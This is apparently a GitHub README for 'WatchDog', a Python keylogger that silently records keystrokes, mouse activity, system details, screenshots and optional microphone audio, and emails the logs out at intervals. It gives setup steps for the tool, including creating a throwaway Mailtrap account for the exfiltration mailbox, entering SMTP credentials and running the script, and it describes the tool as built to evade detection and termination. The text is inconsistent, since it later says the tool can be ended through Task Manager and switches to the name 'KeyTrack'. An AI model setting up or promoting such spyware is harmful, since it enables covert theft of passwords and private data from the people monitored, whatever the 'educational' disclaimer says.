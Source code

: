 <div align="center">
  <img src="images/5.png" alt="header image">
      </a> <a href="https://github.com/arindal1" target="_blank">
      <img src="images/g.png"  width="80px" alt="github"></a> <a href="https://twitter.com/arindal_17" target="_blank">
      <img src="images/x.png"  width="80px" alt="twitter"></a>
</div>
<br>

**WatchDog** is a *Python script* that implements a basic keylogger which captures *keyboard input, mouse events, system information*, and takes *periodic screenshots*. The logged data is sent via *email* to a specified address at regular intervals. The script is designed to run persistently in the background, making it more resilient and harder to detect or stop through conventional means.

## Features

- Captures keyboard input (keystrokes) and special keys.
- Records mouse movements, clicks, and scrolls.
- Collects system information such as hostname, IP address, processor, system type, and machine type.
- Takes screenshots of the desktop.
- Records audio from the microphone (optional).
- Sends logged data via email at regular intervals.
- Resilient against termination attempts through Task Manager.

## Installation

1. Clone or download the WatchDog repository to your local machine.
2. Install the required Python dependencies using pip:

```bash
pip install -r requirements.txt
```

3. Use a Temp-Mail, and create an account on: [mailtrap.io](https://mailtrap.io/).
4. Visit [mailtrap.io](https://mailtrap.io/) dashboard and Go to: **HOME** and use an *fake SMTP* domain.
5. Go to: **Email Testing** > *Inbox*
6. Click on [Show Credentials]() dropdown, and note your port, username, and password.
7. Open `watchdog.py` in a code editor.
8. Replace these following placeholders: <br>
![image](images/1.png)

Replace: 
```
EMAIL_ADDRESS = "your_email@example.com"
EMAIL_PASSWORD = "your_email_password"
```
```
with smtplib.SMTP('smtp.example.com', 587) as server:
```

## Usage

1. Run the `watchdog.py` script using Python:

```bash
python watchdog.py
```

2. The keylogger will start capturing keyboard input, mouse events, and system information silently.
3. Logged data will be periodically sent via email to the specified address. <br>

**Inbox:** <br>
![image](images/2.png) <br>

**Received Mails:** <br>
![image](images/3.png) <br>

```
[ start > "note" > enter > "the key logger is active right now" > enter > "and is recording everything" > enter > "this is the output" > enter > alt+tab ]
```

## Configuration

Before using KeyTrack, make sure to configure the following settings:

- Email address: Replace `"your_email@example.com"` with your actual email address.
- Email password: Replace `"your_email_password"` with your email password.
- SMTP server: Replace `'smtp.example.com'` with the SMTP server of your email provider.
- SMTP port: Replace `587` with the port number used by your email provider.
<br>

**Example:** <br>

![image](images/1.png)

## Termination:

To terminate the script, open **Task Manager** and go to the **Processes** tab. Scroll through and search for running *python processes*. Select the python process, and terminate it using **End Task**. <br>

![images](images/4.png)


## Disclaimer

WatchDog is intended for educational and testing purposes only. It should not be used for any illegal or unethical activities. The developers of this project are not responsible for any misuse or damage caused by the use of this software.
Always use keyloggers responsibly and ethically, respecting the privacy and security of others.
